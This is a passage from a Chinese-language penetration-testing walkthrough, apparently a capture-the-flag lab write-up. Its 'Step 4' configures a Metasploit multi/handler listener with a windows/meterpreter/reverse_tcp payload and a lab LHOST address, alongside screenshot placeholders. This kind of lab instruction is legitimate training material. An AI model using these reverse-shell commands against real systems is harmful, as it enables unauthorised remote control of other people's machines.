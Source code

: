 如果你好奇它看起来像什么，这是一个漏洞

![Screenshot-2019-08-06-at-23.37.55](img/6f3057b802ff2cc91a43572270fa00ea.png)

## **步骤 4 -** 使用 Metasploit 设置监听器

回到 Metasploit，我使用下面的命令来设置有效负载处理程序

```
use exploit/multi/handler
```

我查看哪些选项可用

![Screenshot-2019-08-06-at-23.54.29](img/df4a8cdc22d68cf1bb57e624c37d6a30.png)

我们首先设置有效载荷

```
set payload windows/meterpreter/reverse_tcp
```

然后是 LHOST

```
set lhost 10.10.14.15
```
